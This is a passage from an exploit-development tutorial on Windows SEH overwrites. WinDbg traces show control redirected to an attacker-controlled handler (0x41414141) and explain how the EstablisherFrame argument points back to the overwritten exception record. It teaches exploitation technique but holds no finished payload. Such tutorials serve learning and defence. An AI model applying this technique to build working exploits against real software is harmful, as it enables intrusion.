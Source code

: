 ```cpp
IN OUT PDISPATCHER_CONTEXT DispatcherContext );
```

If we analyze more in depth this function, we can see that the "ExceptionList" pointer of the TEB is being updated with a new `_EXCEPTION_REGISTRATION_RECORD`structure, in order to manage exceptions that might occur during the call of the `_except_handler` function. 
If we continue the execution of the function, we can see that, after updating the TEB, the "call" instruction is being performed to our controlled address:
```c
0:010> t
eax=00000000 ebx=00000000 ecx=6fdb73da edx=77316270 esi=00000000 edi=00000000
eip=7731624d esp=0175f444 ebp=0175f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
ntdll!ExecuteHandler2+0x21:
7731624d 8b4d18          mov     ecx,dword ptr [ebp+18h] ss:0023:0175f478=41414141
0:010> t
eax=00000000 ebx=00000000 ecx=41414141 edx=77316270 esi=00000000 edi=00000000
eip=77316250 esp=0175f444 ebp=0175f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
ntdll!ExecuteHandler2+0x24:
77316250 ffd1            call    ecx {41414141}
```

Once we have understood how to redirect code execution, we need to make it point to our payload.
During a vanilla stack overflow, the attacker overwrites a return address, and consequently the EIP register, with the address of an instruction (like “jmp esp”) that can redirect the execution flow to the stack, where a payload is stored.
However, in this scenario we **do not control the stack when we gain control of the instruction pointer**. Let's inspect ESP when we change the EIP:
```c
0:010> t
eax=00000000 ebx=00000000 ecx=41414141 edx=77316270 esi=00000000 edi=00000000
eip=77316250 esp=0175f444 ebp=0175f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
ntdll!ExecuteHandler2+0x24:
77316250 ffd1            call    ecx {41414141}
0:010> dds esp L8
0175f444  0175f540
0175f448  0175ff44
0175f44c  0175f55c
0175f450  0175f4cc
0175f454  0175fe0c
0175f458  77316270 ntdll!ExecuteHandler2+0x44
0175f45c  0175ff44
0175f460  0175f528
```

But let's inspect the four argument passed to the `_except_handler` function before calling it:
```cpp
typedef EXCEPTION_DISPOSITION _except_handler (*PEXCEPTION_ROUTINE) (
IN PEXCEPTION_RECORD ExceptionRecord, 
IN VOID EstablisherFrame, 
IN OUT PCONTEXT ContextRecord, 
IN OUT PDISPATCHER_CONTEXT DispatcherContext );
```
The argument of interest is the **EstablisherFrame** argument, which is a pointer to the `_EXCEPTION_REGISTRATION_RECORD` structure used to handle the exception. Remember we managed to overwrite the two parameters of this structure!
```c
0:007> dt _EXCEPTION_REGISTRATION_RECORD 0090fe0c
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x0090ff44 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x1008df5b     _EXCEPTION_DISPOSITION  libpal!md5_starts+0
0:007> dt _EXCEPTION_REGISTRATION_RECORD 0090ff44
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x41414141 _EXCEPTION_REGISTRATION_RECORD
```